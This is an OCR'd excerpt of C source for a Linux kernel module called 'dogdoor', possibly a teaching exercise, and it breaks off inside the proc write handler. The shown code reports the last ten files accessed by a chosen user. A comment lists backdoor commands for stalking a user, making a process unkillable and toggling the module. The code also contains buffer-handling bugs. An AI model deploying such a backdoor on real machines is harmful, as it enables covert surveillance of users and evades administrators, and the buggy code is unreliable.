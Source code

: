     
    static
    int dogdoor_proc_open(struct inode *inode, struct file *file) {
            return 0 ;
    }
    
    static
    int dogdoor_proc_release(struct inode *inode, struct file *file) {
            return 0 ;
    }
    
    static
    ssize_t dogdoor_proc_read(struct file *file, char __user *ubuf, size_t size, loff_t *offset)
    {
            char buf[900] ;
            ssize_t toread ;
            int j = 0;
            j = sprintf(buf, "uid : %d\n", saved_uid);
            //if the uid is not specified yet
            if(saved_uid == -1){
                    j+= sprintf(buf, "uid is not specified.\n");
            }
    
            //if the uid is specified, print the recent 10 files that the user has accessed
            else{
                    int i = 0;
                    for(i = 0; i < 10; i ++){
                            if(--count == -1)count = 9;
                            j += sprintf(buf + j, "[%d] %s\n", i+1, filelist[count]);
                    }
            }
    
            toread = strlen(buf) >= *offset + size ? size : strlen(buf) - *offset ;
    
            if (copy_to_user(ubuf, buf + *offset, toread))
                    return -EFAULT ;
    
            *offset = *offset + toread ;
    
            return toread ;
    }
    
    static
    ssize_t dogdoor_proc_write(struct file *file, const char __user *ubuf, size_t size, loff_t *offset)
    {
            char buf[128] ;
            if (*offset != 0 || size > 128)
                    return -EFAULT ;
    
            /*        bingo will give a command as an integer
            *                the command will be like \[param\][cs]
            *                for example, the command 10001 has 1000 as param and 1 as cs
            *                (cs) 1 : stalker, 2 : nokill, 3 : toggle
            */
            int command = 0;
            int cs = -1 ;
            int param = -1;
    